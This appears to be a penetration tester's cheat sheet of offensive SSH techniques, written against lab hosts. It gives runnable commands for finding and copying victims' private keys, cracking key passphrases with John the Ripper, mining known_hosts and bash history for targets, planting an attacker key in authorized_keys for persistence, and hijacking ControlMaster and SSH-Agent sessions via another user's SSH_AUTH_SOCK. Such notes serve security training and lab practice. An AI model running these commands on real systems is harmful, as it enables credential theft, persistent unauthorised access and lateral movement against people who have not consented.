 # (22) SSH

<details>

<summary>Finding SSH Private Keys</summary>

```bash
/home/user/.ssh/id_rsa
```

```bash
find /home/ -name "id_rsa"
```

</details>

<details>

<summary>SSH with Private Key</summary>

```bash
ssh -i svuser.key svuser@controller
```

</details>

<details>

<summary>How to tell if a key is encrypted with passphrase?</summary>

![](<../.gitbook/assets/image (300).png>)

</details>

<details>

<summary>Cracking passphrase of SSH key</summary>

<pre class="language-bash"><code class="lang-bash"><strong>#Copy file over to Kali
</strong><strong>scp root@linuxvictim:/home/linuxvictim/svuser.key .
</strong><strong>
</strong><strong>#Convert the hash to format used by John &#x26;&#x26; Crack it
</strong>/usr/share/john/ssh2john.py svuser.key > svuser.hash
john --wordlist=/usr/share/wordlists/rockyou.txt svuser.hash
</code></pre>

</details>

<details>

<summary>Find Machines that's connected from the victim</summary>

* ```bash
  cat ~/.ssh/known_hosts
  ```
  * If HashKnownHosts is enabled --> entries in known\_hosts are hashed
* ```bash
  cat ~/.bash_history
  ```

</details>

<details>

<summary>SSH Persistency</summary>

* Generate SSH keypair
  *   ```bash
      ssh-keygen
      ```


* Put Kali's public key (\~/.ssh/id\_rsa.pub) to victim authorized\_keys file
  *   ```bash
      echo "ssh-rsa AAAAB3NzaC1yc2E....ANSzp9EPhk4cIeX8=" >> /home/linuxvictim/.ssh/authorized_keys
      ```


* Now, can just:
  * ```bash
    ssh linuxvictim@linuxvictim
    ```

</details>

<details>

<summary>SSH from localhost to localhost</summary>

* Useful if SSH port is not opened to external IP

```bash
www-data@nineveh:/dev/shm$ chmod 600 nineveh.priv 
www-data@nineveh:/dev/shm$ ssh -i nineveh.priv amrois@127.0.0.1
Could not create directory '/var/www/.ssh'.
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:aWXPsULnr55BcRUl/zX0n4gfJy5fg29KkuvnADFyMvk.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
Ubuntu 16.04.2 LTS
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

288 packages can be updated.
207 updates are security updates.


You have mail.
Last login: Wed May 10 08:01:22 2023 from 10.10.14.2
amrois@nineveh:~$ whoami
amrois
```

</details>

<details>

<summary>SSH Hijacking (ControlMaster)</summary>

* Using an existing SSH connection to gain access to another machine
* Allows for the sharing of multiple SSH session over a single network connection

### MAY NEED TO PERIODICALLY `ls -la` the .ssh/controlmaster directory

**ControlMaster feature**

* In \~/.ssh/config
  *   ```tsconfig
      Host *
              ControlPath ~/.ssh/controlmaster/%r@%h:%p      --> specifies where the ControlMaster socket file is stored
              ControlMaster auto
              ControlPersist 10m
      ```


* Then,&#x20;
  *   ```bash
      chmod 644 ~/.ssh/config
      mkdir ~/.ssh/controlmaster
      ```


* SSH to the controller box and from controller box ssh to linuxvictim
  *   ```bash
      ssh offsec@controller
      ssh offsec@linuxvictim
      ```


* Now, in \~/.ssh/controlmaster
  * Have `offsec@linuxvictim:22`entry
* Finally, attacker able to ssh into the linuxvictim machine from controller without having to enter any password --> "piggybacking" the active legit session to linuxvictim
  * ```bash
    ssh offsec@linuxvictim
    OR
    ssh -S /home/offsec/.ssh/controlmaster/offsec\@linuxvictim\:22 offsec@linuxvictim
    ```

</details>

<details>

<summary>SSH Hijacking (SSH-Agent)</summary>

* Keeps track of user's private keys and allows them to be used without having to repeat their passphrases

- Setting up
  * Installing public key to both intermediate and destination server
    *   ```bash
        ssh-copy-id -i ~/.ssh/id_rsa.pub offsec@controller
        ssh-copy-id -i ~/.ssh/id_rsa.pub offsec@linuxvictim
        ```


  * In kali: \~/.ssh/config
    *   ```bash
        ForwardAgent yes
        ```


  * In intermediate server /etc/ssh/sshd\_config
    *   ```bash
        AllowAgentForwarding yes
        ```


  * Start SSH agent on Kali
    *   ```bash
        eval `ssh-agent`
        ```


  * Add our keys to the SSH-agent on kali
    *   ```bash
        ssh-add
        ```


  * Now, able to ssh to intermediate server and from intermediate server ssh to destination server
    *   <pre class="language-bash"><code class="lang-bash"><strong>ssh offsec@controller
        </strong>ssh offsec@linuxvictim
        </code></pre>



Exploiting

*   If there exists a connection from the controller to the linuxvictim that's not the attacker's -->&#x20;

    When the attacker access the controller with the same user as the currently logged in user session, they're able to ssh to the linuxvictim without any creds

- ELSE if the attacker account is different from the current session user
  *   Ensure that user's open SSH-Agent socket is present:

      ```bash
      ps aux | grep ssh
      ```


  * Find PID of SSH process (Eg: bash(2161))
    *   ```bash
        pstree -p offsec | grep ssh
        ```


  * Search for the env variable called SSH\_AUTH\_SOCK
    *   ```bash
        cat /proc/2161/environ
        ```


  * Add SSH auth socket
    *   ```bash
        SSH_AUTH_SOCK=/tmp/ssh-qAgOqMO4H1/agent.2160 ssh-add -l
        ```


  * Use new SSH auth socket to login to linuxvictim
    * ```bash
      SSH_AUTH_SOCK=/tmp/ssh-qAgOqMO4H1/agent.2160 ssh offsec@linuxvictim
      ```

</details>

